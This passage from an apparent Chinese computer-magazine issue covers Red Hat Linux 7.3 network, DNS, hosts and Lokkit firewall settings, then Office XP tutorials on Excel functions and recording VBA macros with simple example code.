    该界面中各参数的具体含义为：“Adapter”网络适配器驱动；“Device”网络接口标识；“Resource”网络接口的硬件资源，包括中断，I/O地址，DMA通道等。
    (4) 填写完成后，单击【OK】按钮后回到图76所示窗口，然后再单击【Add...】按钮打开图78所示对话框。选择“Ethernet connection”选项，并单击【Next】按钮，选择刚才添加的以太网接口，如图82所示。
    (5) 然后在下一步单击【OK】按钮，一个新的以太网接口就添加完毕了。

2.  配置网络
    添加了新的网络接口后需要对其进行设置，在图76所示的窗口中选择需要配置的网络接口，并单击【Edit...】按钮，弹出图83所示的设置窗口。
    在【Host Name】中输入机器名称，用户可以根据实际情况进行输入。
    如果选中“Automatically obtain IP address setting with” (DHCP来自动配置网络) 的话，用户需要设置DHCP的名称以获取自动IP地址。
    如果选中“Statically set IP address”，用户需要手工为计算机设置静态IP，分别是：“Address” IP地址，如“192.168.0.3”；“Subnet Mask”子网掩码，如“255.255.255.0”；“Default Gateway Address”默认网关，如“192.168.0.1”。
    用户应当根据实际情况设置 IP 地址。

    **小知识：什么是DHCP**
    > DHCP 是 Dynamic Host Configuration Protocol 即动态主机配置协议的缩写，该服务能够为每台都没有固定IP地址的客户机临时分配IP地址，DHCP服务器会为这些IP地址指定子网掩码、DNS、网关等信息。在客户机启动时取得IP地址，当客户机关闭系统后就自动地退回这个IP地址，这样做最大的好处就是，在客户机较多的情况下，一旦网络出现了变化，网络管理员只需要在DHCP服务器上进行一下修改，整个网络就又可以重新使用了，而客户机需要做的仅仅是重新启动一次计算机而已；如果客户机采用的是固定IP地址的话，那么就必须要手工修改每一台计算机了，DHCP的优点不言而喻。

3.  DNS
    DNS设置是配置网络不可缺少的一步，没有正确的设置DNS，将无法正常访问Internet。

    **小知识：什么是DNS**
    > DNS，就是 Domain Name System 的缩写，中文含义是“域名系统”。在网络上，DNS是一个非常重要而且常用的系统，它的功能就是将人们易于记忆的域名与人们不容易记忆的IP地址进行转换，如用户都知道《电脑爱好者》的网址是http://www.cfan.com.cn,但是又由多少人知道http://210.192.99.116呢，执行DNS服务的网络主机就能够在用户申请访问www.cfan.com.cn时自动将其转换为210.192.99.116，从而使网络连接正常。

    在图76中选择DNS项，打开如图84所示界面。
    该对话框的【Hostname】中可以设置计算机名称；在【Primary DNS】中可以设置本机访问internet时的第一个DNS服务器IP地址，也就是说，当用户在浏览器中输入http://www.cfan.com.cn后，系统会首先通过此DNS服务器的工作解析出IP地址后，再与Internet进行连接；其中【Secondary DNS】与【Tertiary DNS】都是【Primary DNS】的备用DNS服务器，如果主DNS服务器出现问题无法连接的话，系统会尝试使用第二、第三DNS服务器。
    【DNS Search Path】是系统默认的DNS寻找域，例如添加一个 dhs.org 的寻找域，访问网络时会首先在这个域中匹配，访问 www 主机时会先匹配 www.dhs.org，如果www.dhs.org不存在，才向DNS服务器提交查询请求。

4.  Hosts
    在Linux系统中的/etc目录下有一个hosts文件，该文件是系统的主机名和IP对应表，是linux系统名称服务的一部分，优先级比DNS高，也就是说当用户提出一个名称进行连接时如“cfan”，系统会首先在hosts文件中查找与“cfan”对应的IP地址，如果有，将直接连接，没有则请求DNS服务器的解析。
    用户可以通过图形界面来更改 Hosts 的内容。在图85中选择【Hosts】选项卡，在该窗口中可以添加，修改或者删除“/etc/hosts”文件中对应的行。

#### （四）设置防火墙

如果用户的计算机处在开放的Internet环境下，那么安全性设置就极其重要了。为了防止被各种病毒感染和居心不良的家伙窥视，推荐在用户的系统中使用防火墙。
Linux可以通过使用iptables配置出功能十分强大而且体系完整的专业级防火墙，笔者在这里只是介绍一下Redhat Linux 7.3提供的一些简单的防火墙设置。

1.  启用防火墙
    （1）打开 Redhat 控制面板，单击控制面板中的Lokkit图标，如图 86 所示。
    （2）然后会弹出图87所示对话框，询问是否忽略原来的配置，重新配置防火墙，选择【是】即可。
    （3）确定后，系统会给出关于Lokkit的一些介绍和提示，然后单击【下一步】按钮，选择防火墙的完全程度，可以选择“High”或者“Low”启用防火墙，也可以选择“Disable”关闭防火墙，如图88所示。

2.  配置防火墙
    启用防火墙后，可以接着配置防火墙，包括WWW访问，telnet服务，SSH服务，SMTP服务等，下面接着介绍。
    (1) DHCP
    启用防火墙后，在图89所示的对话框中，提示你是否允许本机通过DHCP从DHCP服务器获取IP和DNS等网络参数，如果用户的网络是通过DHCP自动设置的话，这一项应该允许，否则将无法获取正确的网络配置参数。
    (2) WWW
    在图90所示的对话框中，可以设置防火墙是否允许别人访问用户的机子上的 WWW 服务，如果用户开设了公开的Web服务，这一项应该设置为允许，否则可以设置为不允许。
    (3) Telnet
    在图91所示的对话框中，设置防火墙是否允许从远程通过 telnet 协议登录用户的计算机，由于 telnet 是用明码传输数据，所以推荐这一项设置为 Disable，禁止用户远程 telnet 连接。
    (4) SSH
    在图92所示的对话框中，可以设置防火墙是否允许从远程通过 SSH 协议登录用户的计算机，SSH 协议是用密文传输，如果用户需要在远程管理服务器的话需要打开这一项。
    (5) SMTP
    在图93所示的对话框中，可以设置防火墙是否允许网络上别的计算机使用用户本机提供的SMTP服务转发邮件，如果用户开设了公共的电子邮件服务，就需要打开这一项。

(文/郑轶)

## 办公一族
Microsoft Office 在办公软件中一枝独秀，并且拥有规模巨大的用户群。但很多用户对 Office XP 的应用还仅仅停留在简单的文字和表格处理，对宏、函数、域、公式、模板等 Office XP 的核心和精华知之甚少，因此远远没能将 Office XP 的强大功能发挥出来。
本版块通过精练的文字和典型的应用案例，分别对 Excel XP 函数、Word 域、Excel 公式、Office XP 模板、Office XP 插件、Office XP 中的多媒体应用等 Office XP 的核心内容进行了精彩的讲解，力图让读者在短时间内快速理解并掌握相关知识及应用方法。

- Excel XP 中的函数及其应用 P87
- 玩转 Office XP 的宏 P91
- Word XP 的精髓——域的使用 P98
- Excel XP 的公式及应用 P100
- Office XP 模板——让你的工作更高效 P105
- 让插件把 Office XP 打点得更精彩 P107
- 让你的 Office 更生动—— Office 中的多媒体应用 P109
- 巧思妙用 Office XP P113

## Excel XP中的函数及其应用

作为 Office XP 家族中的一个重要组件，Excel XP 不仅可以在日常办公中帮助人们制作出各式各样的复杂表格，而且利用其内置的函数，还可以进行复杂的数据统计与处理。
下面，就请大家随笔者一道，去认识Excel XP 众多的内置函数，并通过一些经典的实例，学习一些常用函数的使用方法。

### 一、函数的概述

#### （一）函数的定义
Excel XP 中的函数，就是根据某些数据统计处理的实际需要，事先定制好的一个计算函数式。它们通过对一些被称为参数的指定数值按照一定的顺序或结构进行运算后，返回预定的结果。

#### （二）函数的类型
在 Excel XP 中，软件开发者已经内置了以下十大类三百余个函数，方便大家随时使用。

1.  **文本函数**：对应用的文本字符串进行转换、合并、查找等处理的相关函数。例如在输入函数式 “=PROPER("teXt")”，确定后即返回规范的书写结果 “Text”。
2.  **统计函数**：对参数进行概率统计、分布频度分析、标准方差等运算的相关函数。例如输入函数式 “=DEVSQ(B1:B100)”，确定后即返回 B1 至 B100 单元格中 100 个数据的均方差——σ。
3.  **数学与三角函数**：数学学科中的常用函数，例如输入函数式 “=COS(3.1415926)”，确定后即返回角度3.1415926（以弧度表示）所对应的余弦值（-1）。
4.  **日期与时间函数**：用于处理日期和时间的函数，例如输入函数式 “=TODAY()”，确定后即返回电脑系统的当前日期。
5.  **查找与引用函数**：用于对工作表、单元格（区域）的行列标号及数据进行查找与引用的相关函数。例如输入函数式 “=ROW(B8)”，确定后即返回 B8 单元格所对应的行标号 8。
6.  **数据库函数**：对整个数据库清单内的数据进行统计处理的相关函数。例如在 B1 至 B51 单元格中保存了学生的语言成绩（B1 单元格中输入列标志——语文），在 C1 单元格中输入“语文”，在 C2 单元格中输入“>60”，那么输入函数式“=DCOUNT(B1:B51,"语文",C1:C2)”，确定后即返回“语文成绩大于 60 的学生人数”。
7.  **财务函数**：会计人员用于财务方面的运算函数。例如，贷款800万元，分三次归还，那么输入函数式 “=ISPMT(0.1,1,3,8000000)”，确定后即返回第1年需要支付的利息为-533333元。
8.  **信息函数**：用于获取当前工作簿（工作表）的相关信息的函数。例如输入函数式 “=INFO("directory")”，确定后即返回当前工作簿所保存的具体路径。
9.  **逻辑函数**：用于逻辑判断或运算的相关函数。例如输入函数式“=IF(A6=A,"OK","NO")”，如果A6单元格内的值为“A”（不区分大小写）时，即返回“OK”，否则返回“NO”。
10. **工程函数**：用于各种进制之间换算及工程分析的相关函数。例如输入函数式 “=DEC2BIN(123)”，确定后即可将十进制数 “123” 换算为二进制数 “1111011”。执行【工具】→【加载宏】命令，打开“加载宏”对话框，选中“分析工具库”选项，确定加载后，才能使用内置的“工程函数”。

除了上述内置的函数外，大家还可以利用 Excel XP 内置 Visual Basic for Applications(VBA)，根据自己的实际需要，来重新定制自己的函数。

#### （三）函数的构成
Excel XP 函数由函数名称和参数两部分组成。
1.  函数名称用来体现函数所要执行的运算，通常用相应的英文名称及其缩写，例如：求和的英文是 sum，函数名称为 SUM。
2.  参数是指函数运算的对象。
在输入函数时，函数名称在前，参数在后，并将参数放在圆括号 “()” 内。

#### (四) 参数的常见类型

用作Excel XP函数的参数主要有以下五种类型。

- 1. 数值型即阿拉伯数字，例如 "=ROUND(3.1415926,2)"。
- 2. 文本型即中、西文或其它文本字符，例如 "=RIGHTB(\"第八建安公司\",4)"。
提示：参数为文本型时，需要在其两端加上英文双引号 ("")。
- 3. 逻辑型主要有逻辑真（TRUE）和逻辑假（FALSE）两个，例如 "=TRUE()"。
- 4. 引用型指Excel工作表中某些单元格或单元格区域，例如 "=SUM(A1:A50,B1:B50)"。
- 5. 表达式型指一个函数或一个计算式，例如 "=ROUND(SUM(A1:A50),2)"。
提示：当用一个函数或一个计算式作为另一个函数的参数时，仍然用多层圆括号将参数与函数名称隔开，而不使用中括号 "[]" 或大括号 "{}"。

### 二、函数的使用方法

#### (一) 函数的输入方法

#### 1. 函数向导法

在Excel XP中，程序设置了“函数向导”，可以引导大家快速、准确地将函数输入到相应的单元格中。

下面以计算B1至B20单元格内数值的平均值为例，用函数向导输入函数式：

- (1) 选中用于存放平均值的单元格（如B21）。
- (2) 执行【插入】→【函数】命令，或者单击【常用】工具栏上的【自动求和】按钮右侧下拉按钮，在随后弹出的快捷菜单中选【其他函数】选项，打开【插入函数】对话框。
- (3) 在上述对话框中，单击【选择类别】右侧的下拉按钮，选中“统计”选项；在【选择函数】下面选中“AVERAGE”函数。
- (4) 单击【确定】按钮，打开【函数参数】对话框。
- (5) 在上述对话框中，单击“Number1”右侧的红色按钮，此时【函数参数】对话框转换成一个“函数参数”浮动条。
- (6) 用鼠标拖拉的方法，选中工作表中的B1至B20单元格区域，再单击【函数参数】浮动条右侧的红色按钮返回【函数参数】对话框。
提示：如果有多个参数，仿照第(6)步操作即可。
- (7) 单击【确定】按钮，函数式“=AVERAGE(B1:B20)”即被输入到相应的单元格中，并返回运算的结果。

#### 2. 直接输入法

如果大家对函数比较熟悉，就可以直接将函数输入到相应的单元格中。
选中需要输入函数式的单元格（如B21），直接输入函数式：=AVERAGE(B1:B20)，输入完成后，按下【Enter】键，运算结果即刻显示在相应的单元格中。
提示：在用直接法输入函数式时，在函数名称前面一定要输入一个等于号“=”，否则Excel XP会将输入的函数式“AVERAGE(B1:B20)”当作文本显示在单元格中；在用直接法输入函数时，不需要区分函数式中的西文字符的大、小，其中的引号、逗号等必须在西文状态下输入。

#### 3. 复制粘贴法

如果多个单元格中需要输入相同或相似的函数式，完全不需要一一输入，而是先在某个单元格中输入函数式，然后用复制、粘贴或拖拉复制的方法，将相关的函数式复制到其它单元格中（有时需要作适当修改）。
提示：当大家将一个单元格中的函数式复制到另一个单元格中时，相对引用的单元格随之发生相应的改变，例如，将上述B1单元格中的函数式“=AVERAGE(B1:B20)”复制到C21单元格中，函数式会自动转换成“=AVERAGE(C1:C20)”；绝对引用的单元格不会发生改变，例如，将B1单元格中的函数式“=AVERAGE($B$1:$B$20)”复制到C21单元格中，函数式仍然是“=AVERAGE($B$1:$B$20)”。其中“$”符号是单元格（区域）绝对引用的标志，在英文状态下，可以通过按【Shift+4】组合键输入。

#### (二) 函数的搜索

如果大家对某种运算不知使用何种函数时，可以在【插入函数】对话框的【搜索函数】框中输入对运算的描述（如“统计数目”等），然后单击【转到】按钮，系统会列出一些推荐函数供大家选用。

#### (三) 常见的错误结果

有时，函数输入完成后，返回的运算结果是一些特殊的字符，说明出现了错误。

- (1) 返回“#VALUE”字符对应参数类型选择错误。例如“=ADDRESS(0,2,4)”（行标号不能为“0”）。
- (2) 返回“#REF！”字符对应函数引用的单元格（区域）被删除。例如输入函数式“=AVERAGE(D1:D20)”后，却把引用的单元格区域删除了。
- (3) 返回“#DIV/0”字符对应函数式中的除数为“0”。例如输入函数式“=AVERAGE(D1:D20)”，而引用的单元格区域没有数值或全部为“0”值。
- (4) 返回“#NUM！”字符对应运算结果太大或太小，超过了Excel XP的默认范围；或者使用了非法的参数。例如=SQRT(-2)(计算平方根)。

#### (四) 函数的编辑

当函数出现错误时，可以对其进行修改，或者删除后重新输入。

### 1. 函数的修改

双击错误函数式所在的单元格，让其处于编辑状态，按动方向键，将光标定在出现错误的地方，删除错误的内容，输入正确的内容后，单击【编辑栏】中的【输入】按钮，或者按下【Enter】键确认一下。

### 2. 函数的删除

选中需要删除函数式所在的单元格（区域），按【Backspace】或【Del】键，即可删除其中的函数式。

#### (五) 自定义函数及其应用

### 1. 自定义函数

下面以定义梯形面积计算函数式的函数为例，学习一下自定义函数的方法。

- 1. 启动 Excel XP。
- 2. 执行【工具】→【宏】→【Visual Basic编辑器】命令，打开内置的 Visual Basic 编辑窗口。
- 3. 在【工程资源管理器】窗口中，选中“VBAProject (PERSONAL.XLS)”选项。
提示：如果没有见到“工程资源管理器”窗口，在 Visual Basic 编辑窗口中执行【视图】→【工程资源管理器】命令，将其打开。
- 4. 在右侧的编辑区域输入下述代码。

```

Function ST(a, b, h)
ST = (a + b) * h / 2
End Function

```

- 5. 关闭 Visual Basic 编辑窗口。

至此，自定义函数完成。

### 2. 自定义函数的使用

自定义函数成功后，Excel XP 会自动增加“用户定义”函数类型。仿照上面输入函数的方法，同样可以将自定义函数式输入到相应的单元格中。

### 三、函数应用实例

在这里，我们列举一个用 Excel XP 制作一份学生成绩统计表的应用实例。

### 1. 制作成绩表

启动 Excel XP，仿照成绩表的样式制作一份二维表格，取名保存。如图 1 所示。


### 2. 总分的统计

- 1. 选中L3单元格（用于存放第一位学生总分的单元格），输入函数式“=SUM(C3:K3)”，确认，完成1同学总分的计算。
- 2. 再次选中L3单元格，然后将鼠标至该单元格右下角成细十字线状时，按住左键向下拖拉至L52单元格，或者双击，即可将上述函数式复制到相应的单元格中，完成其他同学的总分的计算。
提示：鼠标变成细十字线状，大家通常称之为“填充柄”。

### 3. 平均分的统计

- 1. 选中C53单元格（用于存放“政治”平均分的单元格），输入函数式“=AVERAGE(C3:C52)”，确认，完成“政治”平均分的计算。
- 2. 再次选中C53单元格，用“填充柄”将上述函数式复制到D53至L53单元格，完成其它学科和总分平均分的计算。

### 4. 最高（低）分的统计

- 1. 选中C54单元格（用于存放“政治”最高分的单元格），输入函数式“=MAX(C3:C52)”，确认，查找出“政治”最高分。
- 2. 选中C55单元格（用于存放“政治”最低分的单元格），输入函数式“=MIN(C3:C52)”，确认，查找出“政治”最低分。
- 3. 同时选中C54、C55单元格，用“填充柄”将上述函数式复制到D54至L55单元格，查找其它学科和总分的最高（低）分。

### 5. 分数段学生数统计

#### 用DCOUNT函数统计

- a. 分别选中C61至L62单元格（可以是其它单元格），输入学科名称（与统计学科名称一致，如“政治”等）及相应的分数段，如图2所示。
- b. 选中C56单元格，输入函数式：=DCOUNT($C$2:$C$52,"政治",C61:D62), 确认，即可统计出“政治”学科成绩在0～59区间段的学生人数。


图2

提示：在上述函数式中，引用的单元格($C$2:$C$52)必须包含列标题(政治)所在的单元格($C$2)。

- c. 再次选中C56单元格，用“填充柄”将上述函数式复制到C57至C60单元格中。
提示：仿照上述操作，完成其它学科分数段学生人数的统计工作。


图3

#### 用FREQUENCY函数统计

- a. 分别选中M61至M66单元格，输入各分数段的分隔数值，如图3所示。
- b. 同时选中C56至C60单元格区域，输入函数式“=FREQUENCY(D3:D52,M62:M66)”。
- c. 上述函数式输入完成后，可以按下【Ctrl+Shift+Enter】组合键进行确认，即可一次性统计出各分数段的学生人数。
提示：实际上，此处输入的是一个数组函数，数组函数输入完成后，不能按【Enter】键进行确认，必须按【Ctrl+Shift+Enter】组合键进行确认。确认完成后，在函数式两端出现一个数组函数的标志“{}”(该标志不能用键盘直接输入)。

### 6. 将分数换算成等级

汪老师看着制作好的成绩统计表，又提出了新的要求：“现在强调素质教育，要弱化分数的作用，能否将具体的分数换算成相应的等级呢？”“完全可以！”笔者一边回答他的提问，一边开始进行下面的操作。

- (1) 在C列与D列之间插入一列，用于存放“政治”成绩的等级。
- (2) 选中D4单元格，输入函数式“=IF(C4>=90,"优秀",IF(C4>=80,"良好",IF(C4>=60,"合格","不合格")))”，将C4单元格中的成绩换算成等级。
- (3) 再次选中D4单元格，用“填充柄”将上述函数式复制到D4下面的单元格中，完成其他同学政治成绩的换算。
- (4) 仿照上述操作，即可完成其它学科成绩的换算工作。

### 7. 最后的修饰

- (1) 同时选中61至68行，右击鼠标，在随后弹出的快捷菜单中，选“隐藏”选项，将分数区间段数值隐藏起来，提高表格的观感效果。仿照上述操作，将M列也隐藏起来。
- (2) 设置好表格中的字体、字号及单元格的填充色等。最终效果如图1所示。
- (3) 清除表格中的相关数据，将其保存为模板，随时调用。

透过这个实例，大家应该能领略到Excel XP函数的强大功能了。不过，笔者提供的解决方案不一定是最佳方案，只要大家认真地研究Excel XP的函数，就一定能够利用其丰富的函数功能，来解决大家实际工作、学习和生活中的难题！

> （文/陈秀峰）

电脑爱好者精品图书：《Macromedia MX 三剑客立体作战》即将推出！Flash MX不再单身作战，网页三剑客联合出击！本书以网页三剑客无缝协作为线索，为多媒体光盘制作、网站建设、网页游戏制作等提供了完整的解决方案。全书包含将近30个大型的专题实例，内容独特、实用并且有很大的趣味性，使得学习的过程有声有色、妙趣横生。本书2张配套光盘上收集了三剑客软件及其大量的第三方插件程序，并有多媒体教程及大量Flash游戏、FlashMTV等娱乐内容。本书包括1本图书2张光盘，定价25元，欢迎咨询邮购。

## 玩转Office XP的宏

### 一、 关于宏的一些基本概念

可能是受“宏病毒”的影响，很多人都害怕宏，这种想法是不正确的。在懂得宏的使用之后，用户就可以利用宏来简化自己的工作，并能体会到使用宏的妙处。在对宏进一步学习之前，我们有必要先来了解一下与 Office XP 的宏相关的几个概念。

#### （一） 什么是宏

宏是一系列命令和指令，这些命令和指令组合在一起，形成了一个单独的命令，以实现任务执行的自动化。用户可指定宏通过工具栏、菜单选项或者快捷键运行，就像内置的 Office 的命令一样。

#### （二） 什么是VBA

VBA 是 Visual Basic for Application 的缩写，是一种编程语言。VBA 作为 Visual Basic 的精简集可用于建立用户定义的Microsoft Office的应用程序，为整个 Office 集成软件提供高级开发环境。VBA 最初包含在 Office 97 中的 Word、PowerPoint 和 Access中，在Office XP中其功能更得到进一步增强，并且还可以在FrontPage和Outlook中使用。虽然VBA是一种编程语言，但并不意味着只有程序员才会使用，普通的用户也可以使用它——只需要录制宏或者键入几行代码就可以实现。

#### （三） 宏和VBA的关系

宏是实现各种简单的、复杂的功能的指令合集，是一系列记录下来的操作，而宏的功能则是由相对应的VBA代码来实现，我们可以利用“宏录制器”记录完成某个任务所采取的步骤来生成宏，然后通过执行宏重复这些动作。在用户录制宏的时候，不需要太多关心VBA，因为VBA代码将由计算机自动生成。当你需要根据情况，完成一些复杂的、特定的功能的时候，你才需要在录制成功的宏的基础上进行修改，进而实现该功能。真正完全从代码阶段开始编写宏，不必要也不明智！但为了真正理解宏，我们下面还是要详细的介绍一下VBA。

#### （四） VBA的基本介绍

宿主于Office中的VBA不是嵌入在Office中各个应用程序中的，而是通过一组称作“对象库”的特殊命令与Office中各自对应的应用程序相关联。这样使得内嵌在各应用程序中的VBA不仅可以控制各自的应用程序，而且可以控制任何提供对象库的应用程序。例如，宿主于Excel中的VBA，不仅仅可以控制Excel，而且可以控制Office中其他应用程序如Word、PowerPoint等。同时，其他还有许多Microsoft和非Microsoft的应用程序也提供对象库。另外，作为介绍，你也将被告知VBA并不是唯一的与Office各应用程序对象库相关联的程序设计语言，还可以使用独立版本的Visual Basic、C++以及Delphi等作为程序设计语言来控制Office各应用程序。

VBA 根据其嵌入应用程序的不同，增加了对应程序不同对象的控制功能。例如Excel的VBA主要增加了关于Excel工作簿、工作表、区域、数据透视表等对象的属性、事件和方法；在Word中更多的则是支持文本格式对象的属性、事件和方法。因此，VBA的基本要素有函数、语句、对象、属性、方法、事件、及有关的时间控制程序机制。其中函数和语句是一般程序设计语言所共有的；对象是面向对象的程序设计语言所必须有的，对象以及相应的属性、方法和事件是VBA的基础。

### 1. 对象

所谓对象就是用户或者程序员可以访问到的元素。如工作表、按钮、菜单、为了能在宏中更方便地使用某些对象，VBA还增加了对象集合。例如Button和Buttons（按钮对象和按钮对象集合）、Worksheet与Worksheets（工作表对象与工作表对象集合）。当需要从某对象集合中指定一个特定的对象时，即可以直接通过对的名称来指定，也可以通过使用该对象在对象集合中的序号来指定，使用起来很方便。比如需要关闭一个Excel中的第一个打开的工作簿，可以用以下宏来实现。

```
Sub CloseFirst( )
    Workbooks(1). Close
End Sub
```

### 2. 属性

所谓属性就是指每个对象所具有的特定的性质。可以说，在VBA中可以给每个对象赋予多种属性，用来描述对象的大小、位置、颜色、外观等等特点，使对象成为用户需要的实在的东西。如果要改变对象的外观特性，直接修改对象是属性即可；这也是可视化面向对象程序设计语言的一大特点。

像 Word 中的单元格是比较典型的对象，它具有对齐、行高、列宽、拆分、合并等属性。根据实际使用需要赋予某个属性特定的值，就会改变相应的特性。属性值的设置可用如下语句。

<对象名>.<属性>=<表达式>

例如需要把 Word 中选中的表格单元格水平和垂直都居中，并把单元格高度设置为20，我们可以用以下宏来实现。

```
Sub AlignCenter()
Selection.SelectCell
Selection.Cells.Height = 20
Selection.ParagraphFormat.Alignment = wdAlignParagraphCenter
Selection.Cells.VerticalAlignment = wdCellAlignVerticalCenter
End Sub
```

### 3. 方法

所谓方法就是指每个对象可以执行的的动作。例如，Word中普通文本具有选中、剪切、复制、插入、删除等方法。方法类似于语句，与语句不同之处在于语句是公用的，而方法是针对特定对象的，即不同的对象具有不同的方法。也正因为如此，我们在使用方法的时候一定要用如下格式。

<对象名>.<方法>

例如在Excel中选取当前工作表B1:C6单元格区域，并清楚其格式，可以使用以下语句。

```
Range("B1:C6").Select
Range("B1:C6").ClearFormat
```

### 4. 事件

所谓事件是指由用户操作触发或由系统触发、能被对象识别并作出响应的动作。例如用户单击鼠标，按下某个键等。在 VBA 中，每个对象有很多个事件与其相关联。例如，单元格区域有单击、双击、右击等事件。针对不同对象的没个事件，VBA 都可以提供相应的事件控制程序。可以将需要执行的操作编写成 VBA 程序放入控制程序中，这样当相应的事件发生时，VBA 的事件驱动控制机制将自动运行相应的控制程序，执行相关的操作，这就是事件驱动机制。这也是 Visual Basic 程序的突出特点之一。

### 二、录制自己的宏

希望你没有被前面的众多概念和代码吓倒，那些只不过是为下一步进行宏代码的修改做些必要的基础知识的铺垫，这并不是每一个 Office 普通用户所必须掌握的。下面我将带领你轻松、快速、高效地领略宏的魅力。

#### （一）设计宏

在创建宏之前，应该先设计要让宏执行的步骤和命令。如果在录制宏过程中犯错误，宏记录器也将如实地将其记录下来，也可以将修正的步骤录制到宏中。对于没有程序设计经验的用户来说，使用宏记录器可以方便地编出较为复杂的命令宏。而对于有经验的用户，也可以先利用记录器录制所需宏的大致框架，然后在此基础上进一步修改，最后得到所需要的宏，当然这一切都依赖于录制之前的详细计划。也就是说你要在录制宏之前完成以下的事情。

- 1. 激活宏。即考虑如何运行宏。从菜单、工具栏上的按钮、快捷键或者文件中的图形对象运行宏，或者使用这些选项的组合运行宏。
- 2. 保存宏。对于不同的宏使用范围，宏要被保存在不同的地方。在Excel中，可以将宏保存在当前活动的工作簿、新工作簿或个人宏工作簿中，默认的保存位置是活动的工作簿；在PowerPoint中，所有的宏必须保存在演示文稿中；在Word中，宏可以存储在模板或者文档中。Excel和PowerPoint将所有最近录制的宏放在附加于文件的模块中，这些模块在应用程序执行期间保存所有录制的宏。Word将录制的宏放在一个名为 NewMacro 的单一模块中，这些模块只有在 Visual Basic 编辑器才能看到。将宏保存在当前文件中，意味着只有在该文件打开时才能使用这些宏，将宏保存在个人宏工作簿（对 Excel 而言）和普通模板中（对 Word 而言），则可以在应用程序打开时使用宏。
- 3. 命名宏。根据宏命名规则，宏名称的第一个字符必须是字母，其他的字符可以是字母，也可以是数字或者下划线，另外，宏名中不能使用空格。

#### （二）启动宏记录器

要启动宏记录器，以 Word 为例，可以通过以下步骤之一来实现。

- (1) 双击 Word 窗口底部状态栏上的【录制】。
- (2) 选取【工具】→【宏】→【录制新宏】。

不管采用哪种方法，都会显示【录制宏】对话框，如图1所示。

注意：可以在 Microsoft Visual Basic 编辑器中从零开始编写创建宏。我们将在本章的后面部分讨论该编辑器的使用方法。

#### （三）录制宏

下面我们就进入到了激动人心的宏的录制步骤，就会发现，通过简单的操作，你也可以拥有自己的宏了。我们以 Excel 为例，开始录制一个需要垂直合并 A 栏的行标题的“期末成绩单”的例子，假设要处理的工作表如图 2 所示。

图2 需要垂直合并 A 栏的工作表

我们先来预演一下需要录制成宏的操作过程。

- (1) 选定区域 A3:A5，此时位于选定区域中最上面的单元格。
- (2) 选择【格式】菜单中的【单元格】命令，然后单击对齐选项卡，如图 3 所示。
- (3) 选中【合并单元格】复选框。
- (4) 在【水平对齐】和【垂直对齐】列表框中选择【居中】对齐。

图3 单元格格式对话框

- (5) 单击【确定】按钮即可实现标题的垂直合并。垂直合并后的效果如图 4 所示。

图4 垂直合并后的工作表

通过上面的操作，我们已经实现了垂直合并若干个单元格的操作，下面我们就要启动宏录制器来记录这些操作，并将其转换成 VBA 程序。

- (1) 首先选中要操作的区域 A1:A3。
- (2) 接下来启动【Visual Basic】工具栏。我们可以在任何工具栏上单击右键，然后选择 Visual Basic，或者在菜单栏上选择【视图】→【工具栏】→【Visual Basic】来打开，如图 5 所示。

图5 Visual Basic 工具栏

- (3) 单击【Visual Basic】工具栏上的【录制宏】按钮，或者在菜单栏上选择【工具】→【宏】→【录制新宏】，打开【录制新宏】对话框，如图6所示。

- (4) 在【宏名】文本框中输入要录制的宏的名称，并根据需要在说明文本框中输入要说明的文字，如果需要，还可以在快捷键里输入这个宏的快捷组合键。一般来说在设置快捷键的时候，因为“Ctrl+字母”的组合已经被很多应用程序所定义，为了避免热键的冲突，我们推荐使用“Ctrl+Shift+字母”的组合来定义宏的快捷键。
- (5) 单击【确定】按钮，录制宏按钮相应地变成【停止录制按钮】，并出现停止工具栏，如图7所示。
- (6) 按照前面计划好的步骤，重新执行一遍，宏记录器将自动将执行的步骤如实地记录下来，并将其转化成VBA语句插入到相应的宏里中。
- (7) 录制完成后，单击停止录制按钮（在Word里你还可以通过按暂停录制按钮，来跳过一些不必要的操作）。

这样我们就完成了一个可以实现单元格垂直合并功能的宏的录制过程。

#### （四）使用宏

在录制完成一个宏之后，要看一下它是否按照我们的要求执行各个步骤，我们可以在录制宏的Office程序中运行宏或者从Visual Basic编辑器运行宏（相关内容稍后将做详细的介绍）。下面先介绍如何在Office程序中测试宏，我们在运行宏之前，要把光标放到要运行宏的地方，然后按照以下步骤运行宏（以Excel为例）。

- (1) 打开包含该宏的工作簿。
- (2) 选取【工具】→【宏】→【宏】命令，打开【宏】对话框。在宏对话框里选择要执行的宏，单击【执行】即可。

另外，我们也可以在录制新宏的对话框里设置的快捷键调用宏。假设上面的“垂直合并”这个宏设置了快捷键【Ctrl+Shift+J】，那么，只要我们把光标移到要运行宏的地方，然后按下以上组合键，程序将按照我们的设计，自动完成单元格的垂直合并功能，十分简便。

#### （五）将宏指定到工具栏、菜单栏或图形对象

在前面我们介绍了很多运行宏的方法，比如可以选取【工具】→【宏】命令；或者单击【Visual Basic】工具栏上的【运行宏】按钮；或者是运用组合快捷键……。但是要想所创建的宏能更方便的被调用，而且使多个宏存在时，调用特定功能的宏更容易、更有效，我们就要将宏与菜单和工具栏结合起来。

我们将结合“期末成绩单”创建几个宏（如图8），以说明如何创建自定义的菜单和自定义的工具按钮。

| 等级 | 科目 | 成绩 |
|------|------|------|
| 良 | 计算机英语 | 80 |
| 良 | 法律基础 | 85 |
| 优 | 汇编语言程序设计 | 92 |
| 中 | 离散数学 | 77 |
| 良 | 政治经济学原理 | 81 |
| 良 | 计算机网络 | 83 |
| 良 | 编译原理 | 87 |
| 优 | 数据库应用与开发 | 91 |
| 中 | 面向对象的程序设计及应用 | 79 |

图8 学生期末成绩清单

对于图8所示的成绩清单，需要编辑三个筛选不同等级的宏。“优”宏筛选考试等级为优秀的科目，“良”宏筛选考试科目为良的科目，“中”筛选考试科目为中的科目。这些宏都是利用“宏记录器”将筛选操作记录下来，为了要使得自动筛选的结果正确，我们在宏里添加了一个语句，它的功能是：如果数据清单没有处于自动筛选状态，则先设置为自动筛选状态，然后再进行筛选工作。这样无论数据清单是否处于自动筛选状态，都能使用这个宏，这样就提高了宏的通用性、灵活性和正确性。

```
Sub 优()
' 优 Macro
' 快捷键: Ctrl+Shift+Y
    Selection.AutoFilter
    Selection.AutoFilter Field:=1, Criteria1:="优"
End Sub
```

```
Sub 良()
' 良 Macro
' 快捷键: Ctrl+Shift+L
    Selection.AutoFilter
    Selection.AutoFilter Field:=1, Criteria1:="良"
End Sub
```

```
Sub 中()
' 中 Macro
' 快捷键: Ctrl+Shift+Z
    Selection.AutoFilter
    Selection.AutoFilter Field:=1, Criteria1:="中"
End Sub
```

#### 1. 指定宏到工具栏

